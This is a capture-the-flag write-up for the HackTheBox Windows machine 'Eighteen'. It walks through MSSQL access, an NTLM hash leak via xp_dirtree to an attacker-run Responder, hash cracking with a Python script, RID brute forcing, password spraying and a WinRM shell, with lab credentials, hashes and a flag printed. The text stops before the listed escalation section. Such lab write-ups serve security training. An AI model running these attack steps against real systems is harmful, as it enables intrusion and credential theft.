






## Table of Contents

- [Summary](#Summary)
- [Machine Information](#Machine-Information)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Enumeration of Port 1433/TCP](#Enumeration-of-Port-1433TCP)
- [NTLM Leak using xp_dirtree](#NTLM-Leak-using-xp_dirtree)
- [Cracking Attempt of the Hash (mssql_svc) using John The Ripper](#Cracking-Attempt-of-the-Hash-mssql_svc-using-John-The-Ripper)
- [Get Admin Access](#Get-Admin-Access)
    - [Privilege Escalation to admin](#Privilege-Escalation-to-admin)
- [Privilege Escalation to appdev](#Privilege-Escalation-to-appdev)
    - [Exfiltration of the admin Hash](#Exfiltration-of-the-admin-Hash)
    - [Cracking the Hash (admin) using a custom Script](#Cracking-the-Hash-admin-using-a-custom-Script)
- [Initial Access](#Initial-Access)
    - [RID Brute Force](#RID-Brute-Force)
    - [Password Spraying](#Password-Spraying)
- [user.txt](#usertxt)
- [Enumeration (adam.scott)](#Enumeration-adamscott)
- [Active Directory Configuration Dump](#Active-Directory-Configuration-Dump)
- [Privilege Escalation to SYSTEM](#Privilege-Escalation-to-SYSTEM)
    - [Delegated Managed Service Account (dMSA) Abuse via BadSuccessor](#Delegated-Managed-Service-Account-dMSA-Abuse-via-BadSuccessor)
    - [Port Forwarding via Ligolo-ng](#Port-Forwarding-via-Ligolo-ng)
    - [Time and Date Synchronization](#Time-and-Date-Synchronization)
    - [Delegated Managed Service Account (dMSA) Abuse](#Delegated-Managed-Service-Account-dMSA-Abuse)
- [root.txt](#roottxt)

## Summary

The box starts with port `1433/TCP` exposed. The given `credentials` for this scenario allow authentication against the `Microsoft SQL Server (MSSQL)`. Inside the database another user can be found which is allowed to make changes to the `Web Application` running on port `80/TCP`. This offers the possibility to `exfiltrate` the `hash` of the user `admin`.

By developing a `custom script` to `crack` the`hash` the `password` can be retrieved. To achieve `Initial Access` on the box the next step is `RID Brute Forcing` to get a list of `users` which then can be used for `Password Spraying`. This grants `Foothold` and access to the `user.txt`.

For the `Privilege Escalation` to `SYSTEM` a vulnerability in the latest version of `Windows Server` regarding the `Delegated Managed Service Accoujnt (dMSA)` feature needs to be abused through `BadSuccessor` to impersonate the `Administrator` account and to grab the `root.txt`.

## Machine Information

As is common in real life Windows penetration tests, you will start the Eighteen box with credentials for the following account: `kevin / iNa2we6haRj2gaw!`

## Reconnaissance

### Port Scanning

As usual we started with out initial `port scan` using  `Nmap`. We expected port to be open for a typical `Domain Controller (DC)`  but the only ports available to work on were port `80/TCP` and port `1433/TCP`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.57.94                                                                                        
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-15 20:08 CET
Nmap scan report for eighteen.htb (10.129.57.94)
Host is up (0.013s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Welcome - eighteen.htb
1433/tcp open  ms-sql-s Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.57.94:1433: 
|     Target_Name: EIGHTEEN
|     NetBIOS_Domain_Name: EIGHTEEN
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: eighteen.htb
|     DNS_Computer_Name: DC01.eighteen.htb
|     DNS_Tree_Name: eighteen.htb
|_    Product_Version: 10.0.26100
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-11-16T02:03:09
|_Not valid after:  2055-11-16T02:03:09
|_ssl-date: 2025-11-16T02:08:48+00:00; +7h00m17s from scanner time.
| ms-sql-info: 
|   10.129.57.94:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m16s, deviation: 0s, median: 7h00m16s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.35 seconds
```

Based on the output added `eighteen.htb` to our `/etc/hosts` file to deal with the `redirect` on port `80/TCP`.

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.57.94    eighteen.htb
```

### Enumeration of Port 80/TCP

The `website` offered the option to `register` and to `login` which gave access to some sort of custom `Finance Dashboard` based on `Flask`.

- [http://eighteen.htb/](http://eighteen.htb/)

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ whatweb http://eighteen.htb/
http://eighteen.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.57.94], Microsoft-IIS[10.0], Title[Welcome - eighteen.htb]
```









### Enumeration of Port 1433/TCP

Since we got `credentials` we tried to `authenticate` against the exposed `Microsoft SQL Server (MSSQL)` and got access as `guest`.

```shell
┌──(kali㉿kali)-[~]
└─$ impacket-mssqlclient eighteen.htb/kevin:'iNa2we6haRj2gaw!'@10.129.57.94  
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (kevin  guest@master)>
```

Next we started enumerating which `Databases` and `Users` were configured on the system.

```shell
SQL (kevin  guest@master)> SELECT name FROM sys.databases;
name                
-----------------   
master              

tempdb              

model               

msdb                

financial_planner
```

```shell
SQL (kevin  guest@master)> SELECT * FROM fn_my_permissions(NULL, 'SERVER');
entity_name   subentity_name   permission_name     
-----------   --------------   -----------------   
server                         CONNECT SQL         

server                         VIEW ANY DATABASE
```

```shell
SQL (kevin  guest@master)> SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';
class   class_desc         major_id   minor_id   grantee_principal_id   grantor_principal_id   type   permission_name   state   state_desc   
-----   ----------------   --------   --------   --------------------   --------------------   ----   ---------------   -----   ----------   
  101   SERVER_PRINCIPAL        268          0                    267                    268   b'IM  '   IMPERSONATE        b'G'   GRANT
```

Besides our user and the typical `sa` account, we found `appdev`.

```shell
SQL (kevin  guest@master)> SELECT name FROM sys.server_principals WHERE type = 'S' AND is_disabled = 0;
name     
------   
sa       

kevin    

appdev
```

| Username |
| -------- |
| appdev   |

## NTLM Leak using xp_dirtree

As next logical step we tried to get a quick win while leaking `NTLM Hashes` via `xp_dirtree`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo responder -I tun0
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.16.97]
    Responder IPv6             [dead:beef:4::105f]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-4TVWSQ5ZCZS]
    Responder Domain Name      [3GSH.LOCAL]
    Responder DCE-RPC Port     [49718]

[*] Version: Responder 3.1.7.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>
[*] To sponsor Responder: https://paypal.me/PythonResponder

[+] Listening for events...
```

```shell
SQL (kevin  guest@master)> exec master.dbo.xp_dirtree '\\10.10.16.97\foobar'
subdirectory   depth   
------------   -----
```

And it actually worked. We got the `hash` for the user `mssqlsvc`!

```shell
[SMB] NTLMv2-SSP Client   : 10.129.57.94
[SMB] NTLMv2-SSP Username : EIGHTEEN\mssqlsvc
[SMB] NTLMv2-SSP Hash     : mssqlsvc::EIGHTEEN:963c9a8348c89dbb:03096843F4D717C8F66C0C8E152AB5AA:010100000000000080A417646C56DC016FE59C3123A15DA90000000002000800330047005300480001001E00570049004E002D0034005400560057005300510035005A0043005A00530004003400570049004E002D0034005400560057005300510035005A0043005A0053002E0033004700530048002E004C004F00430041004C000300140033004700530048002E004C004F00430041004C000500140033004700530048002E004C004F00430041004C000700080080A417646C56DC010600040002000000080030003000000000000000000000000030000037477F961066C009C41872A7DEF683F247FF84B1FA073EC74157D067E67629FB0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00390037000000000000000000
```

## Cracking Attempt of the Hash (mssql_svc) using John The Ripper

But when we tried to `crack` the `hash` we noticed that it won't work. Therefore we moved on.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eighteen/files]
└─$ cat mssql_svc.hash 
mssqlsvc::EIGHTEEN:963c9a8348c89dbb:03096843F4D717C8F66C0C8E152AB5AA:010100000000000080A417646C56DC016FE59C3123A15DA90000000002000800330047005300480001001E00570049004E002D0034005400560057005300510035005A0043005A00530004003400570049004E002D0034005400560057005300510035005A0043005A0053002E0033004700530048002E004C004F00430041004C000300140033004700530048002E004C004F00430041004C000500140033004700530048002E004C004F00430041004C000700080080A417646C56DC010600040002000000080030003000000000000000000000000030000037477F961066C009C41872A7DEF683F247FF84B1FA073EC74157D067E67629FB0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00390037000000000000000000
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eighteen/files]
└─$ sudo john mssql_svc.hash --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Sorry, try again.
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:08 DONE (2025-11-15 20:16) 0g/s 1602Kp/s 1602Kc/s 1602KC/s !)(OPPQR..*7¡Vamos!
Session completed.
```

## Get Admin Access

### Privilege Escalation to admin

As next step we tried to `elevate` our  `privileges` and grant ourselves `admin permissions`.

```shell
SQL (appdev  appdev@financial_planner)> UPDATE users SET is_admin = 1 WHERE username = 'foobar';
```

Which worked quite nicely but didn't led to anything useful. The web application was a dead end.



## Privilege Escalation to appdev

Since every attempt to execute code failed, we tried to execute commands like `xp_cmdshell` as the user `appdev` but this approach also failed because of missing permissions.

```shell
SQL (kevin  guest@master)> EXECUTE AS LOGIN = 'appdev';
```

```shell
SQL (appdev  appdev@financial_planner)> EXEC sp_configure 'xp_cmdshell';
name          minimum   maximum   config_value   run_value   
-----------   -------   -------   ------------   ---------   
xp_cmdshell         0         1              1           1
```

### Exfiltration of the admin Hash

At this point all what was left was to `hunt` for `credentials` as the user `appdev`.

```shell
SQL (appdev  appdev@master)> USE financial_planner;
ENVCHANGE(DATABASE): Old Value: master, New Value: financial_planner
INFO(DC01): Line 1: Changed database context to 'financial_planner'.
```

And one query later we found the `Password-Based Key Derivation Function 2 (PBKDF)` hashed `password` of `admin`.

```shell
SQL (appdev  appdev@financial_planner)> SELECT * FROM users;
  id   full_name   username   email                 password_hash                                                                                            is_admin   created_at   
----   ---------   --------   -------------------   ------------------------------------------------------------------------------------------------------   --------   ----------   
1002   admin       admin      admin@eighteen.htb    pbkdf2:sha256:600000$AMtzteQIG7yAbZIa$0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133          1   2025-10-29 05:39:03   

1004   foobar      foobar     foobar@foobar.local   pbkdf2:sha256:600000$yf3xSjF02B3UR9m0$a3f5a4bf8a0cae6c0cf77f61e52a842fde337526e41796f65e6f89061330edeb          0   2025-11-15 18:27:05
```

### Cracking the Hash (admin) using a custom Script

Now when we tried to `crack` this `hash` too, we faced the problem that `John the Ripper` as well as `hashcat` failed on it. To solve this problem we let our `AI Buddy` generate a script to `crack` the `Hash`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eighteen/files]
└─$ cat crack.py 
#!/usr/bin/env python3
import hashlib
import sys

# Target hash from database
target_hash = '0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133'
salt = b'AMtzteQIG7yAbZIa'  # Salt as raw bytes (NOT base64 decoded)
iterations = 600000

wordlist_path = '/usr/share/wordlists/rockyou.txt'

def crack_password():
    try:
        with open(wordlist_path, 'r', encoding='latin-1') as f:
            for idx, line in enumerate(f):
                password = line.strip()
                derived_key = hashlib.pbkdf2_hmac(
                    'sha256',
                    password.encode('utf-8'),
                    salt,
                    iterations
                )
                hex_key = derived_key.hex()

                if hex_key == target_hash:
                    print(f"[+] PASSWORD FOUND: {password}")
                    print(f"[+] Tried {idx + 1} passwords")
                    return
                    
                if idx % 10000 == 0:
                    print(f"[*] Tried {idx} passwords...", end='\r', flush=True)

        print("\n[-] Password not found in wordlist")
    except FileNotFoundError:
        print(f"[-] Wordlist not found: {wordlist_path}")
        sys.exit(1)

if __name__ == "__main__":
    print("[*] Starting PBKDF2-SHA256 crack...")
    crack_password()
```

And after a short time we got the `password` for `admin`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eighteen/files]
└─$ python3 test.py
[*] Starting PBKDF2-SHA256 crack...
[+] PASSWORD FOUND: iloveyou1
[+] Tried 234 passwords
```

| Username | Password  |
| -------- | --------- |
| admin    | iloveyou1 |

## Initial Access

### RID Brute Force

We had a `password` and knew that the `Admin Dashboard` was a dead end. We only had limited users so we decided to `RID Brute Force` for more available `users` to `Password Spray` against them.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eighteen/files]
└─$ netexec mssql 10.129.57.94 -u 'kevin' -p 'iNa2we6haRj2gaw!' --local-auth --rid-brute
MSSQL       10.129.57.94    1433   DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:eighteen.htb)
MSSQL       10.129.57.94    1433   DC01             [+] DC01\kevin:iNa2we6haRj2gaw! 
MSSQL       10.129.57.94    1433   DC01             498: EIGHTEEN\Enterprise Read-only Domain Controllers
MSSQL       10.129.57.94    1433   DC01             500: EIGHTEEN\Administrator
MSSQL       10.129.57.94    1433   DC01             501: EIGHTEEN\Guest
MSSQL       10.129.57.94    1433   DC01             502: EIGHTEEN\krbtgt
MSSQL       10.129.57.94    1433   DC01             512: EIGHTEEN\Domain Admins
MSSQL       10.129.57.94    1433   DC01             513: EIGHTEEN\Domain Users
MSSQL       10.129.57.94    1433   DC01             514: EIGHTEEN\Domain Guests
MSSQL       10.129.57.94    1433   DC01             515: EIGHTEEN\Domain Computers
MSSQL       10.129.57.94    1433   DC01             516: EIGHTEEN\Domain Controllers
MSSQL       10.129.57.94    1433   DC01             517: EIGHTEEN\Cert Publishers
MSSQL       10.129.57.94    1433   DC01             518: EIGHTEEN\Schema Admins
MSSQL       10.129.57.94    1433   DC01             519: EIGHTEEN\Enterprise Admins
MSSQL       10.129.57.94    1433   DC01             520: EIGHTEEN\Group Policy Creator Owners
MSSQL       10.129.57.94    1433   DC01             521: EIGHTEEN\Read-only Domain Controllers
MSSQL       10.129.57.94    1433   DC01             522: EIGHTEEN\Cloneable Domain Controllers
MSSQL       10.129.57.94    1433   DC01             525: EIGHTEEN\Protected Users
MSSQL       10.129.57.94    1433   DC01             526: EIGHTEEN\Key Admins
MSSQL       10.129.57.94    1433   DC01             527: EIGHTEEN\Enterprise Key Admins
MSSQL       10.129.57.94    1433   DC01             528: EIGHTEEN\Forest Trust Accounts
MSSQL       10.129.57.94    1433   DC01             529: EIGHTEEN\External Trust Accounts
MSSQL       10.129.57.94    1433   DC01             553: EIGHTEEN\RAS and IAS Servers
MSSQL       10.129.57.94    1433   DC01             571: EIGHTEEN\Allowed RODC Password Replication Group
MSSQL       10.129.57.94    1433   DC01             572: EIGHTEEN\Denied RODC Password Replication Group
MSSQL       10.129.57.94    1433   DC01             1000: EIGHTEEN\DC01$
MSSQL       10.129.57.94    1433   DC01             1101: EIGHTEEN\DnsAdmins
MSSQL       10.129.57.94    1433   DC01             1102: EIGHTEEN\DnsUpdateProxy
MSSQL       10.129.57.94    1433   DC01             1601: EIGHTEEN\mssqlsvc
MSSQL       10.129.57.94    1433   DC01             1602: EIGHTEEN\SQLServer2005SQLBrowserUser$DC01
MSSQL       10.129.57.94    1433   DC01             1603: EIGHTEEN\HR
MSSQL       10.129.57.94    1433   DC01             1604: EIGHTEEN\IT
MSSQL       10.129.57.94    1433   DC01             1605: EIGHTEEN\Finance
MSSQL       10.129.57.94    1433   DC01             1606: EIGHTEEN\jamie.dunn
MSSQL       10.129.57.94    1433   DC01             1607: EIGHTEEN\jane.smith
MSSQL       10.129.57.94    1433   DC01             1608: EIGHTEEN\alice.jones
MSSQL       10.129.57.94    1433   DC01             1609: EIGHTEEN\adam.scott
MSSQL       10.129.57.94    1433   DC01             1610: EIGHTEEN\bob.brown
MSSQL       10.129.57.94    1433   DC01             1611: EIGHTEEN\carol.white
MSSQL       10.129.57.94    1433   DC01             1612: EIGHTEEN\dave.green
```

### Password Spraying

With this list of users we started `spraying` the two `passwords` we had and got a hit on `adam.scott` with the `password` of `admin`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eighteen/files]
└─$ cat usernames.txt 
jamie.dunn
jane.smity
alice.jones
adam.scott
bob.brown
carol.white
dave.green
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eighteen/files]
└─$ cat passwords.txt 
iNa2we6haRj2gaw!
iloveyou1
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eighteen/files]
└─$ netexec winrm 10.129.57.94 -u usernames.txt -p passwords.txt --continue-on-success 
WINRM       10.129.57.94    5985   DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:eighteen.htb)
WINRM       10.129.57.94    5985   DC01             [-] eighteen.htb\jamie.dunn:iNa2we6haRj2gaw!
WINRM       10.129.57.94    5985   DC01             [-] eighteen.htb\jane.smity:iNa2we6haRj2gaw!
WINRM       10.129.57.94    5985   DC01             [-] eighteen.htb\alice.jones:iNa2we6haRj2gaw!
WINRM       10.129.57.94    5985   DC01             [-] eighteen.htb\adam.scott:iNa2we6haRj2gaw!
WINRM       10.129.57.94    5985   DC01             [-] eighteen.htb\bob.brown:iNa2we6haRj2gaw!
WINRM       10.129.57.94    5985   DC01             [-] eighteen.htb\carol.white:iNa2we6haRj2gaw!
WINRM       10.129.57.94    5985   DC01             [-] eighteen.htb\dave.green:iNa2we6haRj2gaw!
WINRM       10.129.57.94    5985   DC01             [-] eighteen.htb\jamie.dunn:iloveyou1
WINRM       10.129.57.94    5985   DC01             [-] eighteen.htb\jane.smity:iloveyou1
WINRM       10.129.57.94    5985   DC01             [-] eighteen.htb\alice.jones:iloveyou1
WINRM       10.129.57.94    5985   DC01             [+] eighteen.htb\adam.scott:iloveyou1 (Pwn3d!)
WINRM       10.129.57.94    5985   DC01             [-] eighteen.htb\bob.brown:iloveyou1
WINRM       10.129.57.94    5985   DC01             [-] eighteen.htb\carol.white:iloveyou1
WINRM       10.129.57.94    5985   DC01             [-] eighteen.htb\dave.green:iloveyou1
```

| Username   | Password  |
| ---------- | --------- |
| adam.scott | iloveyou1 |

This led to `foothold` on the box and to the `user.txt`.

```cmd
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i eighteen.htb -u 'adam.scott' -p 'iloveyou1'                     
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\adam.scott\Documents>
```

## user.txt

```cmd
*Evil-WinRM* PS C:\Users\adam.scott\Desktop> type user.txt
6cbf69c456eddd3ebd3638d94b16a882
```

## Enumeration (adam.scott)

We started with the `Enumeration` of `adam.scott` but didn't find anything helpful in the first place.

```cmd
*Evil-WinRM* PS C:\Users\adam.scott\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== =============================================
eighteen\adam.scott S-1-5-21-1152179935-589108180-1989892463-1609


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
EIGHTEEN\IT                                Group            S-1-5-21-1152179935-589108180-1989892463-1604 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Since the box seemed kinda limited we checked the `details` about the `system` like the `Operating System (OS)` that was running.

It was the latest version of the `Windows Server` releases. We kept that in the back of our heads for later.

```cmd
*Evil-WinRM* PS C:\Users\adam.scott\Documents> Get-Computerinfo


WindowsBuildLabEx                                       : 26100.1.amd64fre.ge_release.240331-1435
WindowsCurrentVersion                                   : 6.3
WindowsEditionId                                        : ServerDatacenter
WindowsInstallationType                                 : Server Core
WindowsInstallDateFromRegistry                          : 3/24/2025 3:38:13 AM
WindowsProductId                                        : 00491-60000-17651-AA131
WindowsProductName                                      : Windows Server 2025 Datacenter
WindowsRegisteredOrganization                           :
WindowsRegisteredOwner                                  :
WindowsSystemRoot                                       : C:\WINDOWS
WindowsVersion                                          : 2009
OSDisplayVersion                                        : 24H2
<--- CUT FOR BREVITY --->
```

## Active Directory Configuration Dump

Of course we `dumped` the `configuration` of the `Active Directory` to find a way for `Privilege Escalation` to `NT Authority / SYSTEM` using `SharpHound`.

